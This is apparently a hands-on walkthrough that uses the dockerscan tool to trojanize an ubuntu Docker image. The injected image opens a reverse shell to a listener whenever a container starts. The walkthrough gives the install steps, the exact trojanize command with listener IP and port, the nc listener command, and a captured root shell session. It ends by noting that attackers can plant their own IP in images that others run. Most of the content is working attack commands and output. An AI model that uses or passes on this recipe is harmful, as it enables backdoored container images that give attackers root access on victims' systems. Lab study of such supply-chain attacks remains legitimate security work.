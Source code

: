 
**Prerequisites:** 

git clone https://github.com/cr0hn/dockerscan.git
cd dockerscan
sudo apt-get install -y python3-setuptools
sudo python3 setup.py install

**Objective:** 
We will use dockerscan to learn how to infect exisitn docker images. 
we will take ubuntu base image and we will infect it with reverse shell 
and when infected image is used to start container we will we will reverse shell on attacker machine. 

// Pull ubuntu latest image and save as ubuntu-original
docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-original

azureuser@RGUbuntu:~/docker_practice$ export LC_ALL=C.UTF-8
azureuser@RGUbuntu:~/docker_practice$ export LANG=C.UTF-8


get ipaddress using ifconfig command and then run following command to 
azureuser@RGUbuntu:~/docker_practice$ dockerscan image modify trojanize ubuntu-original -l 172.17.0.1 -p 4444 -o ubuntu-original-trojanized
[ * ] Starting analyzing docker image...
[ * ] Selected image: 'ubuntu-original'
[ * ] Image trojanized successfully
[ * ] Trojanized image location:
[ * ]   > /home/azureuser/docker_practice/ubuntu-original-trojanized.tar
[ * ] To receive the reverse shell, only write:
[ * ]   > nc -v -k -l 172.17.0.1 4444


azureuser@RGUbuntu:~/docker_practice$ docker load -i ubuntu-original-trojanized.tar
378f9cfb5c98: Loading layer [==================================================>]  20.48kB/20.48kB
The image ubuntu:latest already exists, renaming the old one with ID sha256:d70eaf7277eada08fca944de400e7e4dd97b1262c06ed2b1011500caa4decaf1 to empty string
Loaded image: ubuntu:latest


Run Listener in another shell now 
nc -v -k -l 172.17.0.1 4444


Next, run image in first shell: 
azureuser@RGUbuntu:~/docker_practice$ docker run -it ubuntu:latest /bin/bash
root@70dcccde0d44:/#

Next when we visit second shell where listener is running we can get backdoor entry as soon container starts: 
-------------------------------------------------------------------------------------------------------------------
azureuser@RGUbuntu:~/docker_practice$ nc -v -k -l 172.17.0.1 4444
Listening on [172.17.0.1] (family 0, port 4444)
Connection from 172.17.0.2 55668 received!
connecting people
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/
ll
sh: 3: ll: not found
ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
-------------------------------------------------------------------------------------------------------------------
similarly, attackers can inject remote ip and as soon user run their malicious images they will get backdoor entry to user host with root access



 

